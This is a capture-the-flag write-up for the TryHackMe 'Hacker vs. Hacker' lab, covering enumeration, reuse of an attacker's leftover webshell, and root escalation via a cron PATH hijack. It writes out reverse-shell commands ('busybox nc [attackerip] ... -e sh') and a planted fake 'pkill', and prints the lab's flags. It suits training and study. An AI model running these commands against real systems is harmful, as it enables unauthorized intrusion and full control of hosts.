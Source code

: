 ```yaml
---
title: "Hacker vs. Hacker"
date: 2025-02-13
image: /assets/img/tryhackme/Hackervshacker/Hackervshacker_image.jpg
description: Writeup of the TryHackMe-CTF ###
categories: [Tryhackme, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Hacker vs. Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Someone has compromised this server already! Can you get in and evade their countermeasures?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/hackervshacker">https://tryhackme.com/room/hackervshacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Hacker vs. Hacker.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:27 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 22.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:28 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
  |   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
  |_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: RecruitSec: Industry Leading Infosec Recruitment
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

While manually analyzing the website, I found a comment in the source code:
```html
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

The website also provided an upload functionality for CV's as well. Which means uploaded CV's will be stored in the `/cvs` subdirectory. I tried to upload valid files, a PHP webshell, and other stuff, but I always received the following message:
```text
Hacked! If you dont want me to upload my shell, do better at filtering!
```
quick check of the source code revealed some interesting details:
```html
<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

With this in mind I tried a pdf file, but got the same error. The attacker seems to have disabled the upload function but already used it for initial access. The code only checks for one occurrence of `.pdf` so the name of the shell could be like `something.pdf.php`:

```bash
$ ffuf -u http://10.10.103.67/cvs/FUZZ.pdf.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt 

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.103.67/cvs/FUZZ.pdf.php
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
  ________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 44ms]
```

Fuff helped to find it real quick. That seems like a regular PHP webshell one-liner:

![Web Shell](/assets/img/tryhackme/Hackervshacker/thm_hackervshacker_1.jpg)

I used it to get a reverse shell using `busybox` 

```html
http://10.10.103.67/cvs/shell.pdf.php?cmd=busybox nc [attackerip] 9001 -e sh
```

While trying to stabilize the shell with Python, the word `nope` appeared, and my `PTY` was terminated. It appears that there is a mechanism in place to prevent stabilization or the initiation of `PTY` sessions. But I was able to collect the user flag anyway:

```bash
www-data@b2r:/var/www/html/cvs$ nope
cd /home
ls
lachlan
cd lachlan
ls
bin
user.txt
cat user.txt 
thm{af7e46b68081d4025c5ce10851430617}
```

## Privilege Escalation lachlan

From this point, I attempted to escalate privileges to the user `lachlan`. I found something interesting in the `bash_history` of the user:

```bash
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

The user changed their password in an insecure manner. From here ssh isn't possible because the shell gets closed again instantly with a `nope`. After researching the `ssh` command, I discovered that `ssh` does not create a PTY session when using the `-T` flag.

## Privilege Escalation root

While searching for a way to gain root access, I found a cron job file named `persistence`:

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

The path for the execution is `/home/lachlan/bin` which is under control. Since the `pkill` command is not referenced by its full path, we can exploit this by creating our own executable:

```bash
pwd
	/home/lachlan/bin
echo "busybox nc [attackerip] 9002 -e sh" > pkill
chmod 777 pkill
```

I then started a `netcat` listener and waited for the incoming connection:

```bash
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [attackerip] from (UNKNOWN) [10.10.103.67] 37212
whoami
root
cat /root/root.txt
thm{7b708e5224f666d3562647816ee2a1d4}
```

solved! :)

